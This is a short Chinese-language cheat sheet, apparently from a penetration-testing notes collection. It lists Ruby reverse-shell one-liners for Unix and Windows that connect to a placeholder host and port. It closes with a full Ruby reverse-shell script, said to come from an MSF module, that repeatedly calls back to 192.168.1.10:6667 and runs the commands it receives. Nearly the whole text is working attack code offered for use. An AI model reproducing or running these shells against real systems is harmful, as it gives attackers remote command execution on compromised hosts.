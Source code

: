 ## ruby

不常用：

```
ruby -rsocket -e'f=TCPSocket.open("[host]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

不依赖/bin/bash

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[host]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

适用Windows

```
ruby -rsocket -e 'c=TCPSocket.new("[host]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

完整ruby反弹shell脚本(MSF模块自带):

```ruby
#!/usr/bin/env ruby

require 'socket'
require 'open3'

#Set the Remote Host IP
RHOST = "192.168.1.10" 
#Set the Remote Host Port
PORT = "6667"

#Tries to connect every 20 sec until it connects.
begin
sock = TCPSocket.new "#{RHOST}", "#{PORT}"
sock.puts "We are connected!"
rescue
  sleep 20
  retry
end

#Runs the commands you type and sends you back the stdout and stderr.
begin
  while line = sock.gets
    Open3.popen2e("#{line}") do | stdin, stdout_and_stderr |
              IO.copy_stream(stdout_and_stderr, sock)
              end  
  end
rescue
  retry
end
```
